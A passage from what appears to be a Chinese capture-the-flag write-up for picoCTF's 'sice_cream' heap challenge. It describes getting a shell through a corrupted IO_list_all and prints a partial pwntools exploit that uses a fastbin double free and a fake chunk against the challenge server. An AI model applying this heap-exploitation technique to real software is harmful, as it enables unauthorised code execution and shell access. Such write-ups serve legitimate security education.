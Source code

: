 ### 获得shell

最后只需再触发一次malloc，在malloc检查的过程中会发现`IO_list_all`指向的堆块已损坏便crash了。此时刷新IO，即调用`system("/bin/sh")`

```py
# trigger malloc then get the shell after crash 
p.sendlineafter('>','1')
p.sendlineafter('>', '50')

p.interactive()
```

### 完整的exploit

```py
from pwn import *

libc = ELF("libc.so.6")
elf = ELF("sice_cream")

REMOTE = 1

if REMOTE:
    host = 'jupiter.challenges.picoctf.org'
    port = '51890'
    p = remote(host, port)
else:
    p = elf.process()
    gdb.attach(p)

unsortedBinOffset = 0x3c4b87 # __malloc_hook + 0x10(main_arena) + 88
IOListAllOffset = 0x3c5520
systemOffset = 0x45390
nameAddr = 0x602040
sh = b"/bin/sh;"

# menu 
def buy(size, content):
    p.sendlineafter('>', '1')
    p.sendlineafter('>', str(size))
    p.sendlineafter('>', content)

def eat(index):
    p.sendlineafter('>', '2')
    p.sendlineafter('>', str(index))

def reintroduce(name):
    p.sendlineafter('>', '3')
    p.sendlineafter('>', name)

# name - fake chunk size: 0x21, bypass fastbin check
p.sendlineafter('>', p64(0) + p64(0x21) * 26)

# double free
buy(20, 'A'*8) # 0
buy(20, 'B'*8) # 1
eat(0)
eat(1)
eat(0)

# set fd pointer -> &USER_NAME
buy(20, p64(nameAddr)) # 2
buy(20, 'C'*8) # 3
buy(20, 'D'*8) # 4

```